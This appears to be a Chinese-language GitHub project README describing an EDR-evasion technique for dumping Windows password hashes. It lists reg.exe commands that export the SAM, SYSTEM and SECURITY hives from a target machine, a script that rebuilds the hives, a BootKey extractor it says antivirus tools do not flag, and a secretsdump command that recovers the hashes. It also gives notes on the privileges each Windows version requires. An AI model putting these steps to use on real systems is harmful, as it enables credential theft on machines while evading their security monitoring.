




# 1# 项目概述

通过系统白程序 `Reg.exe` 的拓展应用，巧妙的绕过了杀软的拦截点，实现了绕过EDR从而DumpHash的目的。

根据实际测试，该方法针对Windows系列系统具有有效性，操作难度不大，具有实战价值。

本项目实战文章：
- [如何绕过EDR实现DumpHash-AabyssZG'Blog](https://blog.zgsec.cn/archives/EDR-DumpHash.html)
- [如何绕过EDR实现DumpHash-国家网络空间安全云社区](https://nccsec.cn/community/detail?id=QaW2xdTj8gE)

文章发表后，在国内和海外社区没找到相同的思路，原本以为是全球首发，后续根据粉丝评论，该思路之前海外有大佬分享过：[Dumping LSA secrets: a story about task decorrelation](https://sensepost.com/blog/2024/dumping-lsa-secrets-a-story-about-task-decorrelation/)

# 2# 关键步骤

## 2.1 第一步、导出reg文件

在目标机器上执行命令导出 `.reg` 文件

```c
reg.exe export HKLM\SAM C:\Users\Public\sam.reg
reg.exe export HKLM\SYSTEM C:\Users\Public\system.reg
reg.exe export HKLM\Security C:\Users\Public\security.reg
```

## 2.2 第二步、在本机还原二进制

将第一步的 `.reg` 文件下载到本机，在本机执行本项目的 `RegReduction.ps1` PowerShell脚本还原出二进制文件

```c
.\RegReduction.ps1
```



## 2.3 第三步、拿到BootKey

在目标机器上执行 `BootKey.exe` 可执行程序，源代码为本项目的 `BootKey.c` 文件

```c
BootKey.exe
```



免杀测试（2026.5.10）：[www.virustotal.com](https://www.virustotal.com/gui/file/cb96f754c4b235fd68964bb0474951bf987da5ef33386fe3ab1a912df907eb91)



## 2.4 第四步、通过secretsdump拿到Hash

```c
python secretsdump.py -sam SAM.hive -security SECURITY.hive -bootkey <目标机器的BootKey> LOCAL
```



# 3# 权限说明

本文有几个关键操作，在目标机器上的核心步骤就两个：

- 使用 `reg.exe export` 命令导出关键注册表内容；
- 使用 `BootKey.exe` 导出系统的BootKey。

对于不同系统也进行了测试，结果如下：

- 在实际测试中，在Win10和Win11以及Windows Server 2025环境上使用 `reg.exe export` 命令导出注册表需要SYSTEM权限，而在Windows Server 2022及以下环境使用 `reg.exe export` 命令导出注册表只需要普通管理员权限即可（并不需要SYSTEM权限），如果使用 `reg.exe export` 命令导出注册表后文件只有1KB大小，那就说明权限不够。
- 在实际测试中，使用 `BootKey.exe` 提取程序导出BootKey是不需要管理员权限的，而且实测大部分杀软（目前遇到的杀软都不会）都不会查杀。
